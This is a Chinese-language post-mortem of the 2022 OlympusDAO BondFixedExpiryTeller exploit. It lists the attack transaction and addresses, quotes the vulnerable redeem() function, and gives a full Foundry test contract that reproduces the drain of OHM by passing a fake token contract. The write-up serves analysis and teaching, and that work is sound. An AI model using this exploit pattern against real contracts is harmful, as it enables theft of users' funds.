


# OlympusDao@validation

## 事件背景

BondFixedExpiryTeller合约拥有的[OHM](https://etherscan.io/address/0x64aa3364f17a4d01c6f1751fd97c2bd3d7e7f1d5)代币被偷走

- 时间：2022.10.21
- 损失金额：$292k

## 交易

- 漏洞合约：[0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156](https://etherscan.io/address/0x007fe7c498a2cf30971ad8f2cbc36bd14ac51156#code)
- 攻击事件hash：[0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf](https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf)
- 攻击合约：[0xa29E4fe451CCFa5e7DEF35188919ad7077A4DE8f](https://etherscan.io/address/0xa29E4fe451CCFa5e7DEF35188919ad7077A4DE8f#tokentxns)
- 黑客EOA地址：[0x443cf223e209E5A2c08114A2501D8F0f9Ec7d9Be](https://etherscan.io/address/0x443cf223e209e5a2c08114a2501d8f0f9ec7d9be)

## 资金流向



## 攻击过程



攻击合约获利之后，转回到EOA地址，然后去到[OlympusDAO](https://etherscan.io/address/0x245cc372c84b3645bf0ffe6538620b04a217988b#code)中调用`transfer()`

## 攻击详细分析

根据攻击过程可以知道，黑客利用合约，调用BondFixedExpiryTeller合约的`redeem()`就直接获利，因此，此方法肯定有明显的漏洞：此方法用于取款，烧掉用户在`token_`的资产，然后此合约转给用户`token_`的标的资产。但是，`token_`是可控的，并且没有做任何检验，这就意味着很容易就达到转账，仅仅只是实现`burn()`、`expiry()`和`underlying()`

```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract Attacker is Test {

    IOHM public ohm = IOHM(address(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5));
    IBondFixedExpiryTeller public BondFixedExpiryTeller = IBondFixedExpiryTeller(address(0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156));

     function setUp() public {
        vm.createSelectFork("mainnet", 15_794_363);

        vm.label(address(ohm), "OHM");
        vm.label(address(BondFixedExpiryTeller), "BondFixedExpiryTeller");
        vm.label(address(this), "attackerContract");
    }

    function test_Exploit() public {
        console.log("[before] address(this) OHM balance",ohm.balanceOf(address(this)));

        uint256 amountToHack = ohm.balanceOf(address(BondFixedExpiryTeller));
        BondFixedExpiryTeller.redeem(address(this), amountToHack);

        console.log("[after] address(this) OHM balance",ohm.balanceOf(address(this)));

        assertEq(amountToHack, ohm.balanceOf(address(this)));
    }

    function expiry() public returns(uint256){
        return 0;
    }

    function burn(address,uint256) public returns(bool){
        return true;
    }

    function underlying() public returns(address){
        return address(ohm);
    }

}
```

## 建议

如果参数是外部可控的，一定要进行检验


